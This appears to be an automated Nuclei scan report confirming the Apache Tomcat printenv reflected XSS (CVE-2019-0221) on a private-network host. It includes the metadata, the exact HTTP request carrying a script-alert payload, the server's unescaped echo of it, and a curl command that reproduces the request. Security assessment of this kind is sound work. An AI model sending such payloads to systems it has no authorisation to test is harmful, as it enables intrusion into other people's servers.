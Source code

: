 ### Apache Tomcat XSS (CVE-2019-0221) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2019-0221**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:27 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Apache Tomcat XSS |
| Authors | pikpikcu |
| Tags | cve, cve2019, apache, xss, tomcat |
| Severity | medium |
| Description | The SSI printenv command in Apache Tomcat 9.0.0.M1 to 9.0.0.17, 8.5.0 to 8.5.39 and
7.0.0 to 7.0.93 echoes user provided data without escaping and is,
therefore, vulnerable to XSS. SSI is disabled by default.
The printenv command is intended for debugging and is unlikely to be present in a production website.
 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2019-0221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2019-0221) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 186
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/printenv.shtml?<script>alert('xss')</script></B> was not found.</BODY></HTML>
```

References: 
- https://seclists.org/fulldisclosure/2019/may/50
- https://wwws.nightwatchcybersecurity.com/2019/05/27/xss-in-ssi-printenv-command-apache-tomcat-cve-2019-0221/
- https://www.exploit-db.com/exploits/50119
- https://lists.apache.org/thread.html/6e6e9eacf7b28fd63d249711e9d3ccd4e0a83f556e324aee37be5a8c@%3cannounce.tomcat.apache.org%3e

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36' 'http://192.168.198.179:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)